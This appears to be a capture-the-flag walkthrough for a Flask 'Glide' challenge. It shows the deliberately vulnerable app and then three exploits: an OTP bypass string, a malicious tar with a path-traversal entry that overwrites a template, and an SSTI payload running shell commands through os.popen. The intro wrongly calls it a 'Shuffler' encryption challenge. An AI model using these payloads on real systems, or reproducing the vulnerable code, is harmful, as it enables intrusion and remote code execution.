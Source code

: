 # Glide - Flagyard CTF Walkthrough

This is a walkthrough for solving the **Shuffler** challenge from the **Flagyard CTF**. The challenge involves reversing a custom encryption process to retrieve the original input that satisfies the conditions.

## Challenge Description
### Ice skating? Slide!
This challenge involves a web application that allows users to log in, upload a .tar file, and automatically extract its contents. The goal is to exploit vulnerabilities in the application to achieve Remote Code Execution (RCE).

---

```python
from flask import Flask, render_template, request, redirect, url_for, session, send_from_directory
import os
import random
import string
import time
import tarfile
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.secret_key = "secretkeyplaceheolder"

def generate_otp():
    otp = ''.join(random.choices(string.digits, k=4))
    return otp

if not os.path.exists('uploads'):
   os.makedirs('uploads')

@app.route('/', methods=['GET', 'POST'])
def main():
    if 'username' not in session or 'otp_validated' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        uploaded_file = request.files['file']
        if uploaded_file.filename != '':
            filename = secure_filename(uploaded_file.filename)
            file_path = os.path.join('uploads', filename)
            uploaded_file.save(file_path)
            session['file_path'] = file_path
            return redirect(url_for('extract'))
        else:
            return render_template('index.html', message='No file selected')
    return render_template('index.html', message='')

@app.route('/extract')
def extract():
    if 'file_path' not in session:
        return redirect(url_for('login'))
    file_path = session['file_path']
    output_dir = 'uploads'
    if not tarfile.is_tarfile(file_path):
        os.remove(file_path)
        return render_template('extract.html', message='The uploaded file is not a valid tar archive')
    with tarfile.open(file_path, 'r') as tar_ref:
        tar_ref.extractall(output_dir)
        os.remove(file_path)
    return render_template('extract.html', files=os.listdir(output_dir))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin' and password == 'admin':
            session['username'] = username
            return redirect(url_for('otp'))
        else:
            return render_template('login.html', message='Invalid username or password')
    return render_template('login.html', message='')

@app.route('/otp', methods=['GET', 'POST'])
def otp():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        otp,_otp = generate_otp(),request.form['otp']
        if otp in _otp:
            session['otp_validated'] = True
            return redirect(url_for('main'))
        else:
            time.sleep(10) # please don't bruteforce my OTP
            return render_template('otp.html', message='Invalid OTP')
    return render_template('otp.html', message='')

@app.route('/logout')
def logout():
    session.pop('username', None)
    session.pop('otp_validated', None)
    session.pop('file_path', None)
    return redirect(url_for('login'))

@app.route('/uploads/<path:filename>')
def uploaded_file(filename):
    uploads_path = os.path.join(app.root_path, 'uploads')
    return send_from_directory(uploads_path, filename)

if __name__ == '__main__':
    app.run(debug=True)
```

## Functionality

    Login: Users must log in with the credentials admin:admin.

    OTP Validation: After logging in, users are prompted to enter a One-Time Password (OTP).

    File Upload: Once authenticated, users can upload a .tar file.

    File Extraction: The uploaded .tar file is automatically extracted.

## Vulnerabilities

### 1. OTP Bypass

The OTP validation is flawed. The application checks if the generated OTP is a substring of the user's input. This allows us to bypass the OTP by submitting a string containing all possible 4-digit combinations.

### Exploit Script

```python
print("".join(f"{a}{b}{c}{d}" for a in range(10) for b in range(10) for c in range(10) for d in range(10)))
```

### 2. Path Traversal in Tar Extraction

The application uses secure_filename() to sanitize the uploaded file's name, but it does not sanitize filenames inside the .tar archive. This allows us to exploit path traversal by crafting a malicious .tar file.

### Malicious Tar Creation Script

```python
import tarfile
import os

# Create a directory for the malicious payload
os.makedirs("malicious_payload", exist_ok=True)

# Define the malicious HTML file and its content
malicious_file = "malicious_payload/extract.html"
html_content = """
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
</head>
<body>
    <h1>You've been exploited!</h1>
    <p>{{7*7}}</p>
    <textarea type="text" rows="40" cols="50" id="page" name="page" >{{7*7}}</textarea>
</body>
</html>
"""

with open(malicious_file, "w") as f:
    f.write(html_content)

# Define the target path for traversal (e.g., ../../extract.html)
traversal_path = "../templates/extract.html"

# Create the tar file
with tarfile.open("file.tar.gz", "w:gz") as tar:
    tar.add(malicious_file, arcname=traversal_path)

print("[+] Malicious tar.gz created successfully.")
```

---

## Exploitation

Step 1: Bypass OTP

    Log in with admin:admin.

    Submit the string generated by the OTP bypass script.

Step 2: Upload Malicious Tar File

    Upload the crafted .tar file.

    The file will be extracted, and the malicious extract.html will be placed in the templates directory.

Step 3: Trigger SSTI

    Access the extract.html page.

    The Server-Side Template Injection (SSTI) payload will execute, allowing Remote Code Execution (RCE).

### Final SSTI Payload

```html
{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}
```

## Conclusion

This challenge demonstrates how improper handling of file uploads and OTP validation can lead to severe vulnerabilities like path traversal and SSTI. By exploiting these weaknesses, we achieved Remote Code Execution (RCE) and retrieved the flag.

### Contact me: 

<a href="https://www.instagram.com/t2tt/" style="color: white; text-decoration: none;">
  <img src="https://upload.wikimedia.org/wikipedia/commons/9/95/Instagram_logo_2022.svg" alt="Instagram" width="30" />
</a>

